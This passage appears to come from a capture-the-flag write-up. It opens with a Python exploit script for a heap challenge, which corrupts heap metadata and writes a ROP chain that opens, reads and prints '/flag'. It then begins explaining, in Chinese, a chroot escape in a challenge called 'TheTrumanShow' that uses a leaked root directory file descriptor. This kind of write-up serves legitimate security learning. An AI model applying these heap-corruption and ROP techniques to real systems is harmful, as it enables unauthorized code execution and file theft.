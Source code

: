 ```py
#pause()

add_(0,"a")
add_(1,"b")
add_(4,"a")

#context.log_level='debug'
del_(0)
#del_(2)
tar_add=0x6CCD60

edi_(0,p64(0)+p64(tar_add-0x10))

add_(2,"a")
edi_(0,p64(0x6CCD60) + p64(0)+ p64(0x6ca858) + p64(0x6ca858))

add_(3,p64(0x6CCD60))

def write_add(addr,text):
    edi_(2,p64(addr))
    edi_(0,text)
    return
rdi_add=0x401a16
rsi_add=0x401b37
rdx_add=0x443136
rax_add=0x41fc84
sys_add=0x4678e5
learet_add=0x400aa5
buf_add=0x6ca0a0 
payload=p64(0x6cc160)+p64(rdi_add)+p64(buf_add+ 0xd0)+p64(rsi_add)+p64(0)+p64(rax_add)+p64(2)+p64(sys_add)+p64(rdi_add)+p64(3)+p64(rsi_add)+p64(buf_add+0x100)+p64(rdx_add)+p64(0x100)+p64(rax_add)+p64(0)+p64(sys_add)+p64(rdi_add)+p64(1)+p64(rsi_add)+p64(buf_add+0x100)+p64(rdx_add)+p64(0x100)+p64(rax_add)+p64(1)+p64(sys_add)+b"/flag\x00"
context.log_level='debug'
write_add(0x6ca0a0,payload)

write_add(0x6cc178,p64(0))

write_add(0x6ccd80,p16(0xe8b0))
edi_(4,p64(learet_add))
del_(5)
p.interactive()



```

##### TheTrumanShow

题目使用chroot限制访问的范围,但在这个函数中提前开了一个真正的`/`目录的文件描述符:

```c
int securefd()
{
  int result; // eax
  int fd; // [rsp+Ch] [rbp-4h]

  close(2);
  open("/", 0);
  result = open("/flag", 0);
  for ( fd = 3; fd <= 1000; ++fd )
    result = close(fd);
  return result;
}
```